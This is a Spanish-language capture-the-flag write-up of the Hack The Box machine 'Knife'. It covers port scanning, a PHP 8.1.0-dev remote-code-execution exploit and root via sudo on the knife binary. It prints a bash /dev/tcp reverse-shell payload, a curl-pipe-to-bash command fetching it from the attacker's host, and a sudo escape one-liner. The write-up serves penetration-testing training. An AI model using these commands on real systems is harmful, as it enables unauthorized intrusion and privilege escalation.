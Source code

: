 ```yaml
---
title: Knife
description: "Máquina Knife de Hackthebox"
date: 2024-07-07 22:15:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Hackthebox
  - Linux
tags:
  - PHP 8.1.0-dev
  - Abusing Sudoers
image:
  path: /assets/img/Knife/Knife.png
---
```


## Skills

- PHP 8.1.0-dev - 'User-Agent' Remote Code Execution [RCE]
- Abusing Sudoers Privilege (Knife Binary) [Privilege Escalation]
  
## Certificaciones

- eJPT
  
## Descripción

`Knife` es una máquina `easy linux` donde estaremos vulnerando la máquina a través de un `rce` (remote code execution), el cual obtenemos al `explotar` el `php 8.1.0-dev`. Mediante el `rce` nos enviamos una `reverse shell` a nuestro equipo y posteriormente `escalamos privilegios` abusando del `sudoers`

---

## Reconocimiento

Se comprueba que la `máquina` está `activa` y se determina su `sistema operativo`, el `ttl` de las máquinas `linux` suele ser `64`, en este caso hay un nodo intermediario que hace que el ttl disminuya en una unidad

```
# ping 10.129.7.60 
PING 10.129.7.60 (10.129.7.60) 56(84) bytes of data.
64 bytes from 10.129.7.60: icmp_seq=1 ttl=63 time=155 ms
64 bytes from 10.129.7.60: icmp_seq=2 ttl=63 time=1542 ms
64 bytes from 10.129.7.60: icmp_seq=3 ttl=63 time=594 ms
^C
--- 10.129.7.60 ping statistics ---
4 packets transmitted, 3 received, 25% packet loss, time 3011ms
rtt min/avg/max/mdev = 155.024/763.527/1541.628/578.642 ms, pipe 2
```

### Nmap

Se va a realizar un escaneo de todos los `puertos` abiertos en el protocolo `TCP` a través de `nmap`

```
# sudo nmap -p- --open --min-rate 5000 -sS -n -Pn -v 10.129.7.60 -oG openPorts
[sudo] password for justice-reaper: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-07 10:06 CEST
Initiating SYN Stealth Scan at 10:06
Scanning 10.129.7.60 [65535 ports]
Discovered open port 22/tcp on 10.129.7.60
Discovered open port 80/tcp on 10.129.7.60
Completed SYN Stealth Scan at 10:07, 23.98s elapsed (65535 total ports)
Nmap scan report for 10.129.7.60
Host is up (0.092s latency).
Not shown: 45604 closed tcp ports (reset), 19929 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 24.06 seconds
           Raw packets sent: 118385 (5.209MB) | Rcvd: 110593 (4.424MB)
```

Se procede a realizar un análisis de `detección` de `servicios` y la `identificación` de `versiones` utilizando los puertos abiertos encontrados

```
# nmap -sCV -p 22,80 10.129.7.60 -Pn -oN services 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-07 10:09 CEST
Nmap scan report for 10.129.7.60
Host is up (0.36s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title:  Emergent Medical Idea
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.05 seconds
```

### Web Enumeration

Cuando `accedemos` al servicio `web` visualizamos lo siguiente

![](/assets/img/Knife/image_1.png)

`Fuzzeamos` en busca de `rutas` y no encontramos `nada`, con wappalyzer vemos las tecnologías que se están usando en la página web

![](/assets/img/Knife/image_2.png)

Usamos `whatweb` para obtener más `información` y al parece la `versión` de `php` es `8.1.0-dev`

```
# whatweb 10.129.234.175
http://10.129.234.175 [200 OK] Apache[2.4.41], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.129.234.175], PHP[8.1.0-dev], Script, Title[Emergent Medical Idea], X-Powered-By[PHP/8.1.0-dev]
```

Debido a que no hemos encontrado más puertos abiertos ni por TCP ni por UDP, tampoco hay virtual hosting y fuzzeando en busca de nuevas rutas no hemos encontrado. Vamos a buscar vulnerabilidades en google para la versión 8.1.0 de php, para esto hacemos la búsqueda la siguiente búsqueda > `php 8.1.0 exploit`

![](/assets/img/Knife/image_3.png)

## Web Exploitation

Al parecer es `vulnerable` al `exploit` encontrado y obtenemos `acceso` a la máquina víctima

```
# python3 exploit.py 
/home/justice-reaper/.local/lib/python3.11/site-packages/requests/__init__.py:102: RequestsDependencyWarning: urllib3 (1.26.18) or chardet (5.2.0)/charset_normalizer (2.0.12) doesn't match a supported version!
  warnings.warn("urllib3 ({}) or chardet ({})/charset_normalizer ({}) doesn't match a supported "
Enter the full host url:
http://10.129.234.175

Interactive shell is opened on http://10.129.234.175 
Can't acces tty; job crontol turned off.
$ whoami
james
```

## Intrusión

Procedemos a mandarnos una `reverse shell`, lo primero es crearnos en nuestra máquina una archivo llamado `shell` en su interior haya este `payload`

```
bash -i >& /dev/tcp/10.10.16.15/443 0>&1
```

En el `mismo directorio` donde nos hemos creado el archivo `shell`, no ponemos en `escucha` con `python` por el `puerto 80`

```
# python -m http.server 80
```

Nos ponemos en `escucha` también por el `puerto 443` para recibir la `shell`

```
# nc -nlvp 443
```

Desde la máquina víctima nos mandamos un `curl` a nuestra máquina y el output lo pipeamos con `bash`

```
$ curl http://10.10.16.15|bash
```

Una vez en la máquina víctima vamos a realizar un `tratamiento` a la `TTY`

```
# nc -nlvp 443 
listening on [any] 443 ...
connect to [10.10.16.8] from (UNKNOWN) [10.129.95.96] 53600
sh: 0: can't access tty; job control turned off
$ 
```

Obtenemos las `dimensiones` de nuestra `pantalla` 

```
# stty size
45 183
```

Efectuamos el `tratamiento` a la `TTY`

```
# script /dev/null -c bash
[ENTER]
[CTRL + Z]
# stty raw -echo; fg
[ENTER]
# reset xterm
[ENTER]
# export TERM=xterm
[ENTER]
# export SHELL=bash
[ENTER]
# stty rows 45 columns 183
[ENTER]
```

Ya tenemos un `consola` completamente `interactiva`

```
james@knife:/opt$ whoami
james
```

## Privilege Escalation

Una vez dentro de la máquina víctima vemos si podemos `ejecutar` algún `binario` con `sudo`

```
james@knife:/opt$ sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```

Buscando en [https://gtfobins.github.io/gtfobins/knife/](https://gtfobins.github.io/gtfobins/knife/) nos damos cuenta de que mediante este binario podemos `escalar privilegios` y convertirnos en usuario `root`

```
james@knife:/opt$ sudo knife exec -E 'exec "/bin/sh"'
# whoami
root
# 
```
